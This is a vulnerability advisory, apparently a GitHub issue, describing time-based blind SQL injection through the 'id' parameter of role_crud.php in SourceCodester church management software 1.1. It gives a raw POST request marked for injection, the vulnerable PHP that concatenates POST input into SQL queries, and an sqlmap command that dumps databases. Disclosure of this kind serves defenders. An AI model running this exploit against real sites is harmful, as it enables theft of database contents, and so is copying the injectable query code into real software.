 A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in `/admin/app/role_crud.php`. Affected is file `/admin/app/role_crud.php`,The manipulation of the argument id leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

Request：
```
POST /admin/app/role_crud.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

update=1&id=*
```

Affect code(`/admin/app/role_crud.php`):
```
......
if (isset($_POST['update'])) {
      
      
     extract($_POST);
     $stmt = $conn->prepare("delete  from permission_role where group_id='".$_POST['id']."'");
    $stmt->execute();

    $stmt = $conn->prepare("UPDATE groups set name='$name',description='$description' where id='".$_POST['id']."'");
    $stmt->execute();

    $checkItem = $_POST["checkItem"];
    //print_r($_POST);
    $a = count($checkItem);  
    for($i=0;$i<$a;$i++){
    $id = $_POST['id'];

        $sql="insert into permission_role(permission_id,group_id)values('$checkItem[$i]','$id')";
        $execute = $conn->query($sql);
        
    }
    
        $_SESSION['update'] = "update";
        header("location:../manage_role.php");
}
......
```

Exploit:
```
python sqlmap.py -r .\1.txt --dbs
```
![图片](https://github.com/user-attachments/assets/21d238f1-5481-41da-8d33-b0b544ae5f22)

![图片](https://github.com/user-attachments/assets/a1bf1402-95fc-45b4-aa7c-f3c36d1d6ae2)

